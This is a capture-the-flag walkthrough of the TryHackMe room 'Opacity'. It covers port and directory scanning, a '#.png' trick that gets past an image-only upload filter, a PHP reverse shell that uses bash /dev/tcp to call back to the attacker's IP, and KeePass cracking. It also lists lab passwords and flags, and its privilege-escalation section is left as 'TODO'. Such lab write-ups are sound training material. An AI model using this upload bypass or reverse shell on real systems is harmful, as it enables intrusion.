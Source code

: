 ```yaml
---
title: THM - Walkthrough - Opacity [Easy]
date: 2024-07-28 00:00:00 +/-TTTT
categories: [Walkthrough]
tags: [ctf, thm, easy]     # TAG names should always be lowercase
---
```


<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/328c078f7c5695439a46ba90ae48aaa0.png" alt="Opacity Room Icon" width="200" height="200" />

Welcome to my writeups for the TryHackMe room Opacity. That's an easy room that will help you 
practice your web exploitation and linux exploitations skills.
The room is available [here](https://tryhackme.com/room/opacity).

## Information Gathering

### Port Scanning

We start by using `nmap` to scan the target machine for open ports and services.

```
$ nmap -sV 10.10.86.31
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-28 12:38 EDT
Nmap scan report for 10.10.86.31
Host is up (0.22s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.07 seconds
```

We see that the target machine has the following services running:
- `SSH` on port 22
- `HTTP` on port 80
- `SMB` on ports 139 and 445

### Website Enumeration

Visiting the website at `http://10.10.86.31` we are redirected on `http://10.10.86.31/login.php` which is a login page.

![Login Page](assets/img/posts/walkthroughs/opacity/20240728_opacity_login_page.png)

#### Directory Enumeration

We use `gobuster` to find hidden directories on the website.

```
$ gobuster dir -u http://10.10.86.31/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o gobuster_dir_output.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.86.31/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 308] [--> http://10.10.86.31/css/]
/cloud                (Status: 301) [Size: 310] [--> http://10.10.86.31/cloud/]
...
```

We find a directory `/cloud` containing a index page.

![Cloud Directory](assets/img/posts/walkthroughs/opacity/20240728_opacity_cloud.png)

## Exploitation

### File Upload

We seems to have a file upload form on the page. We try to upload a PHP file by creating a simple HTTP server with Python (`$ python -m http.server 1234`) and a simple PHP file.

```php
<?php
phpinfo();
?>
```

Then we provide the URL of the PHP file to the upload form.

`http://10.2.34.126:1234/payload.php`

Unfortunately, the upload is blocked by the server. The server is checking the file extension and only allows images file extensions.

![Upload Blocked](assets/img/posts/walkthroughs/opacity/20240728_opacity_fail_upload.png)

We can bypass this by using a PHP file with a valid image extension and bypassing the filter with a `#`.
The server will only check the extension after the `#` and not interpret it when making the GET request on our server. 

`payload.php#.png`

We provide the new URL to the upload form.

`http://10.2.34.126:1234/payload.php#.png`

![Upload Success](assets/img/posts/walkthroughs/opacity/20240728_opacity_successful_upload.png)

The upload is successful and we can then access the file at `http://10.10.86.31/cloud/images/payload.php`.

![phpinfo Injection](assets/img/posts/walkthroughs/opacity/20240728_opacity_phpinfo.png)

As we can see, the php file is executed and we can now inject PHP code.
(It is possible the server remove the file before you try to access it, you can try to upload it again)

### Reverse Shell

We can now inject a reverse shell in the PHP file after setting up a listener on our machine.

```php
<?php
echo shell_exec("bash -c 'exec bash -i &>/dev/tcp/10.2.34.126/1235 <&1'");
?>
```

Following the same process as before, we upload the file with the `.png` extension and access it at `http://10.10.86.31/cloud/images/payload.php`.

And now we have a reverse shell on the target machine.

![Whoami](assets/img/posts/walkthroughs/opacity/20240728_opacity_whoami.png)

### Local Enumeration

In the web server directory (`/var/www/html/`), we find a file `login.php` containing the following code.

```php
<?php session_start(); /* Starts the session */

        /* Check Login form submitted */
        if(isset($_POST['Submit'])){
                /* Define username and associated password array */
                $logins = array('admin' => 'oncloud9','root' => 'oncloud9','administrator' => 'oncloud9');

                ...
        }
?>
```

We can see that the login form is checking for the username `admin`, `root` or `administrator` with the password `oncloud9`.

We can also find a `dataset.kdbx` file in the `/opt` directory.

`.kdbx` files are Keepass password manager databases. We can try to crack the password of the database to get more credentials.

### Keepass Crack

We download the `dataset.kdbx` file to our machine and use `keepass2john` to extract the hash.

With the hash, we can use `john` to crack the password of the database.

![Keepass Database](assets/img/posts/walkthroughs/opacity/20240728_opacity_keepass_crack.png)

The crack is successful with the default password list and we get the password `741852963`.

With the password, we can open the database with `keepassxc` and find the credentials for the user `sysadmin`.

![Keepassxc](assets/img/posts/walkthroughs/opacity/20240728_opacity_keepassxc.png)

We can now log in as `sysadmin` with the password `Cl0udP4ss40p4city#8700` and get the user flag located in the home directory.

![Whoami sysadmin](assets/img/posts/walkthroughs/opacity/20240728_opacity_whoami_sysadmin.png)

![Local flag](assets/img/posts/walkthroughs/opacity/20240728_opacity_local_flag.png)

`6661b61b44d234d230d06bf5b3c075e2`

## Post Exploitation

### Privilege Escalation

**TODO**

![Root flag](assets/img/posts/walkthroughs/opacity/20240728_opacity_root_flag.png)

`ac0d56f93202dd57dcb2498c739fd20e`